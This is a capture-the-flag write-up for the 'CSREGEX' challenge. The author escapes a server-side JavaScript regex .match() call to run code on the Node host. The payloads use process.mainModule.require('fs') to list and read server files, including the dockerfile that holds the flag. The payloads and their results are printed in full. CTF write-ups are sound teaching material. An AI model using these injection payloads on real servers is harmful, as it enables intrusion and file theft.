 # writup for CSREGEX challange
description:
```
Stop pwning, start learning REGEX! This is such a fine way to ESCAPE the real world...

http://chal.cybersecurityrumble.de:9876

Author: molatho|nviso

(72 solves)
```

Table of contents
=================

<!--ts-->
   * [how we got to the solution](#how_we_got_to_the_solution)
   * [solution](#solution)
<!--te-->

how we got to the solution
=============================

we are greeted with a regex tesiting page, In the main box you can enter a regular expression, which will be evaluated and the output will be shown in the bottom

```
'A regular expression (shortened as regex or regexp; also referred to as rational expression) is a sequence of characters that define a search pattern. Usually such patterns are used by string-searching algorithms for "find" or "find and replace" operations on strings, or for input validation. It is a technique developed in theoretical computer science and formal language theory.\n\nThe concept arose in the 1950s when the American mathematician Stephen Cole Kleene formalized the description of a regular language. The concept came into common use with Unix text-processing utilities. Different syntaxes for writing regular expressions have existed since the 1980s, one being the POSIX standard and another, widely used, being the Perl syntax.\n\nRegular expressions are used in search engines, search and replace dialogs of word processors and text editors, in text processing utilities such as sed and AWK and in lexical analysis. Many programming languages provide regex capabilities either built-in or via libraries.\n\nhttps://en.wikipedia.org/wiki/Regular_expression'.match(/<user input regex>/gi)
```
this gets transmtted and evaluated on the server. 
Which makes the task pretty obvious, lets escape the .match expression and have server side (remote) code execution


z'.match()/gi); <javascript code>;/
- the first part `z'.match()/gi);` completes the string so it doesnt error
- the end `;/` is to comment out the rest, `/gi`



so we have an RCE, what next?

"fetch is not defined" -- we are running on node and not a web browser

lets see what we can and cannot do:
- we cannot call require
- `child_process` and `fs` arent imported
- we can use `return` to get any data back from the server

thats not much, but we found that we can infact call require by using `process.mainModule.require`

so lets build a little script:
we can return the contents of the current directory with the fs module
```js
//code:
let files = [];
const fs = process.mainModule.require('fs');
fs.readdirSync(".").forEach(file => files.push(file) );
return files;

// exploit:
z'.match()/gi);let files = [];const fs = process.mainModule.require('fs'); fs.readdirSync(".").forEach(file =>  files.push(file) ); return files;/

// result:
{"result":[".dockerignore","api.js","csregex","dist","dockerfile","index.js","leftover.js","node_modules","package-lock.json","package.json","regexer.js","requests.log","simple-fs.js"]}

```



solution
===========
start reading the files to see if there is anything interesting in either one
```js
// code:
const fs = process.mainModule.require('fs');
const data = fs.readFileSync('api.js', 'utf8');
return(data);/

// exploit:
z'.match()/gi);const fs = process.mainModule.require('fs'); const data = fs.readFileSync('dockerfile', 'utf8'); return(data);/

//results
api.js: "var express = require('express');↵var router = express.Router();↵var RegexEr = require('./regexer')↵↵router.get('/regex/:pattern/:flags/:input', (req, res) => {↵    var params = {↵        pattern: req.params.pattern,↵        input: req.params.input,↵        flags: req.params.flags↵    };↵    try {↵        params.pattern = Buffer.from(req.params.pattern, 'base64').toString();↵        params.input = Buffer.from(req.params.input, 'base64').toString().replace(/\n/gm, "").trim();↵        params.flags = Buffer.from(req.params.flags, 'base64').toString();↵        RegexEr.process(params.pattern, params.flags, params.input)↵            .then((result) => res.status(200).send({result: result}))↵            .catch((err) => res.status(400).send({ error: err.message }));↵↵    } catch (ex) {↵        console.error(ex);↵        res.status(400).send(JSON.stringify(ex));↵    }↵↵});↵↵module.exports = router;"
dockerfile:"from mhart/alpine-node:12\nWORKDIR /app\nCOPY . .\nRUN apk update\nRUN apk upgrade\nRUN apk add bash\nRUN apk add curl\nRUN npm install\nRUN chown root:root .\nRUN chmod -R 755 .\nRUN adduser -D -g '' server\nRUN touch requests.log\nRUN chown server:server requests.log\nRUN chmod +s /usr/bin/curl\nRUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}' > /root/flaggerino_flaggeroni.toxt\nRUN chmod 640 /root/flaggerino_flaggeroni.toxt\nRUN chmod 744 /root\nUSER server\nEXPOSE 8080\nCMD [ \"node\", \"index.js\"]
```

sure enought dockerfile had the flag
```
RUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}'
```

